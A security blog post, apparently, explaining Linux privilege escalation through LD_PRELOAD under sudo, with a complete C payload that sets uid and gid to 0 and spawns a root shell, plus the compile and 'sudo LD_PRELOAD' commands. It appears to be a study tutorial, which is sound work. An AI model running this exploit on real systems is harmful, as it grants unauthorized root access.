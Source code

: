 ```yaml
---
title: "LD PRELOAD"
description: 
date: 2025-01-24T13:21:32Z
image: post/ldpco.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","Linux","Sudo"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```




## **Linux Privilege Escalation Using LD_PRELOAD**

**LD_PRELOAD** is an environment variable in Linux that allows users to load custom shared libraries before any other libraries during the execution of a program. Attackers can exploit this feature to inject malicious code and potentially escalate privileges, especially if the target program is executed with elevated permissions (e.g., as `root`).

## **How LD_PRELOAD Works**

1. **Purpose**: LD_PRELOAD is used for debugging or testing by overriding functions in shared libraries.
2. **Mechanism**: When a program is executed, the dynamic linker checks the LD_PRELOAD variable for a shared library path. If specified, this library is loaded before others, allowing its functions to override standard library functions.

## Privilege Escalation

  ![image alt text](post/ldpreload.png)

Let’s generate a C program file inside the `/tmp` directory.

![C Program File Example](https://1.bp.blogspot.com/-B9yPaw7TbHU/WyKXUU2u8iI/AAAAAAAAXXo/pyxfa1xrXn8Pr1il5ziHSB2ppZ2MQN2AACEwYBhgL/s1600/4.png)

```c
#include <stdio.h> 
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); 
    setuid(0);

    system("/bin/sh"); 
}
```
Save it as `shell.c` inside **/tmp**.

![Compiling the Shell Program](https://3.bp.blogspot.com/-H4g6p2ggbfA/WyKXVJnFfCI/AAAAAAAAXYE/jtgOe57paVYSq5EPS7ddVbVRiOFsP3m8gCEwYBhgL/s1600/5.png)

Next, compile it to generate a shared object with a `.so` extension, similar to a `.dll` file in the Windows operating system. Enter the following command:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Check the generated file:

```shell
ls -al shell.so
```

Now execute the `find` command with `LD_PRELOAD` set to the path of the shared object:

```shell
sudo LD_PRELOAD=/tmp/shell.so find
```

To verify the privileges, run:

```shell
id
whoami
```
![](https://1.bp.blogspot.com/-SmdjE6lvzUI/WyKXVZ-5akI/AAAAAAAAXYM/ic2oN4QGsc4xmfyDUrwUMmWV0uL5bDntgCEwYBhgL/s1600/6.png)

And finally, you should have obtained root privileges! 😉


## Resources :
- https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
- https://www.youtube.com/watch?v=bzjnIi5u9OQ